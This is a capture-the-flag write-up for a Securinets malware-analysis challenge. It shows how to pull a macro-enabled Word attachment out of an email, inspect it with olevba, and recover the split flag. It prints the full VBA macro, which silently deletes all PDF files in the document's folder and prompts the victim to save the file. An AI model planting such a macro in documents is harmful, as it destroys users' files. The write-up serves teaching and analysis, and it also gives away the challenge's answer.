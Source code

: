 # Serie Algebre 416 - Malware Analysis Writeup

## Challenge Descritption

**"DON'T EXECUTE THIS IN A FOLDER CONTAINING IMPORTANT FILES. YOU'VE BEEN WARNED!"** My friend sent me these exercices. For some reason now, all of my academic material is getting deleted. Can you help me inspect the mail he sent me? Flag: Securinets{flag_filesDeletedExtension}

---

## Provided Files:

[Dazou_khouh_Tah_fe_chorba.eml](taskFiles/Dazou_khouh_Tah_fe_chorba.eml)

---

## TL;DR
open the `.eml` file with your email viewer (Outlook...) and extract the `.docm` file. Using a text editor and decoding the base64 data is also valid.

Download and install the oletools python package
```bash
sudo -H pip install oletools
```
Extract the macro script using this command.

```bash
olevba SerieAlgebre.docm
```

The extracted script deletes every `.pdf` file in the local directory, and the flag is split in the two vbExclamation calls (message box).

**flag: Securinets{W0nt_Help_Y0u_4nym0re_pdf}**

---

## Initial Analysis

The `.eml` file (Electronic Mail Format) is an email message file format. This can be opened with an email client like Outlook or, alternatively, with a text editor. Inspecting the email, we found an attached `.docm` file — a Word document with enabled macros.

![The eml file in outlook.](assets/eml_attach.png)

A `.docm` file is particularly suspicious in a malware analysis context, as it can contain embedded macros, which are often used to automate tasks. However, in many phishing attacks, attackers embed malicious scripts within these macros **(In Word, you can automate frequently used tasks by creating and running macros. A macro is a series of commands and instructions that you group together as a single command to accomplish a task automatically.)**. 

Opening the file with ms word will be your first intinct and it is solvable with that apprach. Open the document and it's just a normal ms word document. But, if you enable editing, you get this a warning that macros from untrusted sources is disabled by default.

`Microsoft Word disables macros by default for documents from unknown sources, but with a bit of social engineering, users can be convinced to re-enable them.`

![docm file](assets/docm_file.png)

*If you want to enable the macros, just make sure to put the docm in an isolated folder that doesn't contain important files and just follow [these instructions](https://support.microsoft.com/en-us/topic/a-potentially-dangerous-macro-has-been-blocked-0952faa0-37e7-4316-b61d-5b5ed6024216). Make sure to save the file too.*

To view the macros, just head to the view tab, select macros, click on **corrigé** macro and select edit.

![macros script](assets/macros_script.png)

---

## Static Analysis Using Oletools

Opening the `.docm` file in Microsoft Word is not an optimal approach, especially for Linux users. Instead, we opted for **oletools**, a Python tool for static malware analysis. To extract and analyze macros from the Office document, we used the following command:

```bash
olevba SerieAlgebre.docm
```

We then get the following output

```bash
olevba 0.60.2 on Python 3.11.9 - http://decalage.info/python/oletools
===============================================================================
FILE: SerieAlgebre.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub Corrige()
    Dim folderPath As String
    Dim fileName As String
    Dim fileExtension As String
    Dim fileSystem As Object

    folderPath = ThisDocument.Path

    If folderPath = "" Then
        MsgBox "Save me please... Securinets{W0nt_Help", vbExclamation
        Exit Sub
    End If

    Set fileSystem = CreateObject("Scripting.FileSystemObject")

    fileName = Dir(folderPath & "\*.*")
    Do While fileName <> ""
        fileExtension = LCase(fileSystem.GetExtensionName(fileName))
        If fileExtension = "pdf" Then
            On Error Resume Next
            fileSystem.DeleteFile folderPath & "\" & fileName
            On Error GoTo 0
        End If
        fileName = Dir
    Loop
    Set fileSystem = Nothing
    MsgBox "HHAHHAHA you lost all your pdfss _Y0u_4nym0re}", vbExclamation
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|CreateObject        |May create an OLE object                     |
+----------+--------------------+---------------------------------------------+

```

This script to sumarize, deletes the pdf files stored in the directory that contains the docm file while displaying two message boxes.

The first one **Save me please... Securinets{W0nt_Help** conatains the first part of the flag. It also displays an attempted method by the attacker to make the victim save the file for the script to work correctly.

The second one **HHAHHAHA you lost all your pdfss _Y0u_4nym0re}** contains the second part of the flag.

The main part of the script reads the path of the file, scans the directory for files that have pdf extension, and deletes them.

```bash
fileName = Dir(folderPath & "\*.*")
    Do While fileName <> ""
        fileExtension = LCase(fileSystem.GetExtensionName(fileName))
        If fileExtension = "pdf" Then
            On Error Resume Next
            fileSystem.DeleteFile folderPath & "\" & fileName
            On Error GoTo 0
        End If
        fileName = Dir
    Loop
```

So, finally: **flag: Securinets{W0nt_Help_Y0u_4nym0re_pdf}**